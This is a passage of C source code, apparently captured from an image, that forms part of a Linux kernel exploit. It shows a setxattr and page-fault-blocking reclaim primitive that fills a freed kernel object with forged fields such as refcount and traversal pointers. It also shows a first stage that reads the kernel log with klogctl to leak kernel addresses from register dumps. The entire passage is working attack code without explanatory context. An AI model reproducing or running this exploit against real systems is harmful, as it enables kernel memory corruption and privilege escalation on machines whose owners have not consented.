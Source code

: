 ```c
	assert(pthread_create(&handle, NULL, fault_thread, &ctx->fault_arg) == 0);
	assert(sem_wait(&ctx->fault_arg.fault_sema) == 0);

	char *node = mem + 0x1000 - 0x7e;
	// memcpy could cross boundaries
	for (int i = 0; i < 0x7e; i++)
		node[i] = buf[i];

	ctx->setxattr_arg.buf = node;
	ctx->setxattr_arg.size = 0x7f; // avoid copy_from_user 16b optimization
	assert(pthread_create(&ctx->setxattr_handle, NULL, setxattr_thread, &ctx->setxattr_arg) == 0);

	assert(sem_wait(&ctx->fault_arg.fault_sema) == 0);
}

static void reclaim_alloc(struct reclaim_ctx *ctx, unsigned int is_finalized,
                          unsigned long num_children, unsigned long traversal_idx,
						  unsigned long traversal)
{
	char buf[0x80];
	memset(buf, 0, sizeof(buf));
	*(unsigned int *)(buf + 0x8) = 1; // refcount
	*(unsigned int *)(buf + 0x30) = is_finalized; // is_finalized
	*(unsigned long *)(buf + 0x58) = num_children; // num_children
	*(unsigned long *)(buf + 0x70) = traversal_idx; // traversal_idx
	*(unsigned long *)(buf + 0x78) = traversal; // traversal

	reclaim_alloc_raw(ctx, buf);
}

static void reclaim_free(struct reclaim_ctx *ctx)
{
	assert(sem_post(&ctx->fault_arg.unblock_sema) == 0);
	assert(pthread_join(ctx->setxattr_handle, NULL) == 0);
}

static void stage1_leak_dmesg(unsigned long *dist_addrp, unsigned long *edges_addrp)
{
    int i, sz;
    char *buf;

    sz = klogctl(10, NULL, 0);
	assert(sz != -1);

    buf = malloc(sz);
    assert(klogctl(3, buf, sz) != -1);

	unsigned long dist_addr = 0, edges_addr = 0;
    for (i = 0; i < sz && (!dist_addr || !edges_addr); i++) {
        if (!dist_addr && !strncmp(buf + i, "RAX: ", 5)) {
            if (sscanf(buf + i + 5, "%lx", &dist_addr) != 1)
				dist_addr = 0;
        }
		if (!edges_addr && !strncmp(buf + i, "R09: ", 5)) {
            if (sscanf(buf + i + 5, "%lx", &edges_addr) != 1)
				edges_addr = 0;
        }
    }
	assert(dist_addr && edges_addr);

	free(buf);

    *dist_addrp = dist_addr;
```